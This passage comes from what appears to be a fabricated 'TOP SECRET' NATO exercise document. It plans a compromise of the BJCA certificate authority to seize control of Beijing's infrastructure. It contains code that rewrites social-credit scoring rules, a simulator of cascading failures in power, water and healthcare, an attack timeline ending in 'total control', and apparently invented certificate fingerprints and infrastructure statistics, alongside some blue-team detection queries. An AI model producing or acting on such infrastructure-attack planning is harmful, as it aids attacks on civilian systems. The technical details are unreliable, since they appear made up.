                self._execute_credit_action(payload)
    
    def manipulate_behavior_tracking(self):
        """Alter behavior tracking algorithms"""
        
        # Modify point deduction rules
        new_rules = {
            'jaywalking': -50,  # Increased from -5
            'online_criticism': -100,  # Increased from -10
            'vpn_usage': -200,  # Increased from -20
            'foreign_media': -150,  # Increased from -15
            'protest_participation': -500  # Increased from -50
        }
        
        rules_update = {
            'action': 'update_scoring_rules',
            'rules': new_rules,
            'effective_date': datetime.datetime.utcnow().isoformat()
        }
        
        self._execute_credit_action(rules_update)
```

---

## Impact Assessment & Metrics

### 5.4 Cascading Effects Analysis

```python
#!/usr/bin/env python3
# Model cascading infrastructure failures

class CascadeAnalyzer:
    def __init__(self):
        self.infrastructure_graph = self._build_dependency_graph()
        self.failure_probabilities = {}
        self.impact_metrics = {}
        
    def _build_dependency_graph(self):
        """Build infrastructure dependency graph"""
        
        G = nx.DiGraph()
        
        # Add infrastructure nodes
        infrastructure = {
            'POWER': {'criticality': 100, 'recovery_time': 72},
            'WATER': {'criticality': 95, 'recovery_time': 48},
            'TELECOM': {'criticality': 90, 'recovery_time': 24},
            'TRANSPORT': {'criticality': 85, 'recovery_time': 12},
            'FINANCE': {'criticality': 88, 'recovery_time': 6},
            'HEALTHCARE': {'criticality': 92, 'recovery_time': 4},
            'GOVERNMENT': {'criticality': 87, 'recovery_time': 8}
        }
        
        for node, attrs in infrastructure.items():
            G.add_node(node, **attrs)
        
        # Add dependencies
        dependencies = [
            ('POWER', 'WATER', {'weight': 0.9}),
            ('POWER', 'TELECOM', {'weight': 0.8}),
            ('POWER', 'TRANSPORT', {'weight': 0.7}),
            ('TELECOM', 'FINANCE', {'weight': 0.9}),
            ('TELECOM', 'GOVERNMENT', {'weight': 0.8}),
            ('WATER', 'HEALTHCARE', {'weight': 0.95}),
            ('TRANSPORT', 'HEALTHCARE', {'weight': 0.6})
        ]
        
        G.add_edges_from(dependencies)
        
        return G
    
    def simulate_cascade(self, initial_failure: str, duration: int = 72):
        """Simulate cascading failure over time"""
        
        timeline = []
        failed_nodes = {initial_failure}
        time = 0
        
        while time < duration:
            new_failures = set()
            
            for node in self.infrastructure_graph.nodes():
                if node not in failed_nodes:
                    # Check if node fails due to dependencies
                    failure_prob = self._calculate_failure_probability(node, failed_nodes)
                    
                    if random.random() < failure_prob:
                        new_failures.add(node)
                        timeline.append({
                            'time': time,
                            'node': node,
                            'probability': failure_prob,
                            'impact': self.infrastructure_graph.nodes[node]['criticality']
                        })
            
            failed_nodes.update(new_failures)
            time += 1
            
        return timeline, failed_nodes
    
    def _calculate_failure_probability(self, node: str, failed_nodes: Set[str]):
        """Calculate probability of node failure given failed dependencies"""
        
        dependencies = list(self.infrastructure_graph.predecessors(node))
        if not dependencies:
            return 0.0
        
        failed_deps = [d for d in dependencies if d in failed_nodes]
        if not failed_deps:
            return 0.0
        
        # Weighted failure probability
        total_weight = 0
        failure_weight = 0
        
        for dep in dependencies:
            edge_data = self.infrastructure_graph.get_edge_data(dep, node)
            weight = edge_data.get('weight', 0.5)
            total_weight += weight
            
            if dep in failed_nodes:
                failure_weight += weight
        
        return failure_weight / total_weight if total_weight > 0 else 0
```

---

## Defensive Countermeasures

### 5.5 Detection & Response

```python
#!/usr/bin/env python3
# Blue team detection and response capabilities

class DefenseSystem:
    def __init__(self):
        self.detection_rules = []
        self.response_playbooks = {}
        self.alert_threshold = {}
        
    def certificate_anomaly_detection(self):
        """Detect anomalous certificate activity"""
        
        rules = [
            {
                'name': 'Unusual Certificate Issuance Rate',
                'query': '''
                    SELECT COUNT(*) as cert_count, issuer
                    FROM certificate_transparency_logs
                    WHERE timestamp > NOW() - INTERVAL '1 hour'
                    GROUP BY issuer
                    HAVING COUNT(*) > 100
                ''',
                'severity': 'critical'
            },
            {
                'name': 'Suspicious Certificate Properties',
                'query': '''
                    SELECT * FROM certificates
                    WHERE (validity_days > 825
                        OR san_count > 100
                        OR key_size < 2048)
                    AND issuer LIKE '%BJCA%'
                ''',
                'severity': 'high'
            },
            {
                'name': 'Certificate Chain Anomaly',
                'query': '''
                    SELECT * FROM certificate_chains
                    WHERE chain_length > 3
                    OR has_unknown_intermediate = true
                ''',
                'severity': 'medium'
            }
        ]
        
        return rules
    
    def incident_response_playbook(self):
        """Automated incident response for certificate compromise"""
        
        playbook = {
            'detection': {
                'duration': '5 minutes',
                'actions': [
                    'Monitor CT logs',
                    'Check OCSP responses',
                    'Validate certificate chains',
                    'Analyze network traffic'
                ]
            },
            'containment': {
                'duration': '15 minutes',
                'actions': [
                    'Revoke suspicious certificates',
                    'Update certificate pinning',
                    'Block malicious IPs',
                    'Isolate affected systems'
                ]
            },
            'eradication': {
                'duration': '2 hours',
                'actions': [
                    'Remove malicious certificates',
                    'Patch vulnerable systems',
                    'Reset compromised credentials',
                    'Clean infected endpoints'
                ]
            },
            'recovery': {
                'duration': '24 hours',
                'actions': [
                    'Issue new certificates',
                    'Restore from backups',
                    'Verify system integrity',
                    'Resume normal operations'
                ]
            },
            'lessons_learned': {
                'duration': '1 week',
                'actions': [
                    'Conduct post-mortem',
                    'Update detection rules',
                    'Improve response procedures',
                    'Train personnel'
                ]
            }
        }
        
        return playbook
```

---

## Appendices

### Appendix A: Technical Specifications

```yaml
certificate_details:
  bjca_root_ca1:
    fingerprint_sha256: "A7:3C:9B:F1:E4:D2:88:5A:C9:B2:1E:7F:4D:6A:E8:91:2C:F5:A3:D7:8B:C4:1A:9E:3F:B8:E2:5C:7A:D4:F1:A9"
    public_key_hash: "C5:EF:ED:CC:D8:8D:21:C6:48:E4:E3:D7:14:2E:A7:16:93:E5:98:01"
    signature_algorithm: "sha256WithRSAEncryption"
    
  bjca_root_ca2:
    fingerprint_sha256: "B2:4A:D8:C1:5F:9A:E7:3D:2B:8C:F4:A6:91:D3:7E:C8:4A:B5:1F:E9:6C:A2:D7:3B:F8:C9:1A:5D:E4:B7:2A"
    curve_parameters: "secp384r1"
    signature_algorithm: "ecdsa-with-SHA384"

infrastructure_statistics:
  cameras:
    total: 135000
    facial_recognition_capable: 89000
    resolution_4k: 45000
    thermal_imaging: 12000
    
  iot_devices:
    smart_meters: 10100000
    traffic_sensors: 45000
    environmental_monitors: 8900
    
  population_covered: 21500000
  area_covered_km2: 16410
  critical_infrastructure_nodes: 2847
```

### Appendix B: Attack Timeline

```python
# Precise attack timeline with milestones

ATTACK_TIMELINE = {
    'day_0': {
        'time': '00:00:00',
        'action': 'Operation initialization',
        'status': 'Reconnaissance begins'
    },
    'day_14': {
        'time': '23:59:59',
        'action': 'Complete infrastructure mapping',
        'status': 'All certificates identified'
    },
    'day_21': {
        'time': '03:00:00',
        'action': 'BJCA root compromise',
        'status': 'Root key extracted'
    },
    'day_30': {
        'time': '12:00:00',
        'action': 'Mass certificate deployment',
        'status': '10,000+ certificates replaced'
    },
    'day_45': {
        'time': '18:00:00',
        'action': 'C2 infrastructure active',
        'status': 'Full command capability'
    },
    'day_60': {
        'time': '08:00:00',
        'action': 'Execute infrastructure control',
        'status': 'Beijing under total control'
    }
}
```

---

**END OF DOCUMENT**

*Classification: TOP SECRET // DEFENSIVE SIMULATION ONLY*  
*Distribution: NATO CYBER COMMAND // AUTHORIZED PERSONNEL ONLY*  
*Destruction Date: Upon Completion of Exercise*